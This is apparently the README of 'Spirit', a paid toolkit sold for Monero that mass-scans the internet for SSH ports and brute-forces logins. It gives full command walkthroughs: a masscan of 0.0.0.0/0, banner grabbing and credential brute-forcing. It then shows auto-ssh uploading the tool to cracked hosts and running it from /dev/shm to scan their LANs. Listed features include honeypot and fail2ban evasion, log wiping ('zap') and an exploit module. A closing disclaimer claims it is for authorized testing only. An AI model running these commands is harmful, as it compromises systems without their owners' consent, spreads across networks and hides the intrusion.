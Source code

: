 # Spirit - Network Pentest Tools

### [Download the latest Spirit release](https://github.com/theaog/spirit/releases)

> [`$ ./spirit --help`](./HELP) shows you all the included tools. \
Most commands have subcommands `./spirit <command> --help`

## Quick Start
```bash
# download spirit
wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
# unpack spirit
tar xvf spirit.tgz
./spirit --help

# install masscan
sudo apt install masscan
# copy masscan into your current working directory
cp `which masscan` .

# start the show! <class-A> <port1,port2,port3> <speed> 
# ./spirit ports generates 3 random ports 1-65535 and keeps track of
# already generated port numbers in ports.lst
./go.sh 172 $(./spirit ports) 50000
```

## Support
- Telegram (https://t.me/pentestspirit)

## Example usage for SSH brute flow TLDR;
```bash
# First scan your network or the internet (check disclaimer) to acquire a list of open ports.
$ masscan \
    --rate="50000" \
    --ports "22,222,2222,2212" 0.0.0.0/0 \
    --exclude 255.255.255.255 \
    -oG open.lst
Scanning 4294967295 hosts [4 ports/host]
# masscan will create an open.lst file in oG (output Greppable) format.

# Parse this open.lst to format the data, so that spirit can understand it.
$ ./spirit parse
INFO created h.lst in HOST:PORT format

# Optional: create a filter.lst file if you want to skip certain SSH versions.
$ cat >filter.lst<< EOF
SSH-1.0
SSH-2.0-CISCO
SSH-2.0-Comware
EOF

# Grab SSH banners to make sure your target version is running on the host. NOTE: Makes a backup of h.lst to h.lst.bak
$ ./spirit banner
INFO backing up h.lst to h.lst.bak
SSH-2.0-OpenSSH_8.2p  13% [=>                  ] [11s:1m15s]
INFO created h.lst in HOST:PORT:BANNER format
head -n1 h.lst
100.100.100.100:2222:SSH-2.0-OpenSSH_6.6.1

# Add a password list, spirit will automatically load user:pass from a p.lst file.
# NOTE: if p.lst is not present, Spirit uses an internal passfile
$ cat > p.lst << EOF
user1:pass1
user1:pass2
user2:pass50
EOF

# Start bruting...
$ ./spirit brute
INFO loaded h.lst with 26803 hosts
INFO loaded p.lst with 4881 logins
[2478/4653]root:!1qwerty [77]found [33]blocked [1284]threads 20% [====>               ] [20s:1h13m36s]
failed connections statistics:
(    7)  ssh: closed network connection 30s timeout
(    7)  total failed
results stored in:
- found.ssh # for quick manual connect
- found.login # user:pass combinations that worked
- found.lst # used by `spirit auto-ssh` for connecting en-masse
[26803]hosts [4000]bruted [3000]found [19803]blocked

# Connect to all your found hosts automatically & run commands.
$ ./spirit auto-ssh --command 'whoami && uptime'
# Upload spirit to all hosts and scan the LAN
$ ./spirit auto-ssh --upload ./spirit --command '/dev/shm/spirit scan --lan'
```

> Tip: you can automate these steps with `./spirit auto-brute` for continuous automatic probing on random ports & bruting. ![forever](asset/forever.png)

## Upgrade Spirit automaticaly
```bash
./spirit upgrade
Upgrading 87% [========================>     ] (5.9/5.9 MB, 49.652 MB/s)
```

## Spirit is Free (sorta)
For `local IP` (10/172/192) ranges and up to 10 minutes on `public IPs`

## You can unlock Spirit's full functionality directly from the CLI by obtaining a license.
```bash
$ ./spirit buy
Monero only, you can convert other crypto assets to XMR on https://tradeogre.com
If you have any issue w/ the payment-flow, contact us https://github.com/theaog/spirit/issues
+--------------+-------------------+------------------+
| SPIRIT BASIC |    SPIRIT PRO     |   SPIRIT ULTRA   |
+--------------+-------------------+------------------+
| brute        | brute-key         | exploit          |
| banner       | auto-ssh          | proxy-banner     |
| scan         | masscan           | encrypt          |
| auto-brute   | passwd            |                  |
|              | abuse             |                  |
|              |                   |                  |
|              |                   |                  |
+--------------+-------------------+------------------+
|  3 SERVERS   | 6 SERVERS + BASIC | 12 SERVERS + PRO |
+--------------+-------------------+------------------+
Use the arrow keys to navigate: ↓ ↑ → ←
? Select your Spirit version::
  ▸ Basic TRIAL $15 (3 days)
    Basic $100 (30 days)
    Pro $200 (30 days)
    Ultra $500 (30 days)
    Referral code
```

## Key Features
- extracts SSH banners accurately (retry failed hosts) and fast (many threads)
- brute multiple ports at once: 1.1.1.1:22, 1.1.1.1:23, etc.
- brute using private keys `./spirit brute-key --file id_rsa`
- brute auto-blocks honeypots not wasting time nor giving away all your passwords
- brute also blocks hosts that are unreachable, or have fail2ban installed (less dull work, faster scanning)
- brute will try every connection twice before blocking unreachable hosts to increase accuracy
- very light on server load, your CPU will thank you!
- `./spirit omni -c 'uptime'` connect to all your found hosts at once, upload files and execute remote commands
- `./spirit zap` clean connection logs 
- `./spirit masscan --zone zone.lst --rate 10_000` masscan whole zones automatically 
- `./spirit auto-brute` scan & brute your network on random ports over and over -- spot vulnerabilities before they happen
- `./spirit exploit` test targets for common local and remote exploits
- and more... [`$ ./spirit --help`](./HELP) 

# Support our development
## Monero (XMR) thank you! (our favorite)
`895LJnKcfTv7NHf7SN1zz5UzhBRwwvdR8NYLvXNr54jJ3GXghBoyfBKLp2dL4GcYohQatRnigct8zgK6utkjjeBxVNsky1s`

![xmrqr](asset/xmrqr.png)

## Bitcoin (BTC) thank you too!
`bc1q7plm79dgllrhrjz772x4vjrtvu9yy03738psy5`

## Get Help & Support
Open a Github [issue](https://github.com/theaog/spirit/issues) and consider encrypting your message using this pub key [aog.gpg](asset/aog.gpg).

Don't forget to give us a Star!

> NOTICE: rumors have been circulating that `spirit` contains a backdoor -- that's not true, we would never do that. We offer a bounty of 50XMR to whomever opens an issue in this repo and provides undeniable proof of the "alleged" backdoor.

# Disclaimer

This tool should be used for authorized penetration testing and/or educational purposes only.
Any misuse of this software will not be the responsibility of the author or of any other collaborator.
Use it on your own systems and/or with the system owner's permission.

Usage of any tools in this repository for attacking targets without prior mutual consent is illegal.
It is the end user’s responsibility to obey all applicable local, state and federal laws.
We assume no liability and are not responsible for any misuse or damage caused.
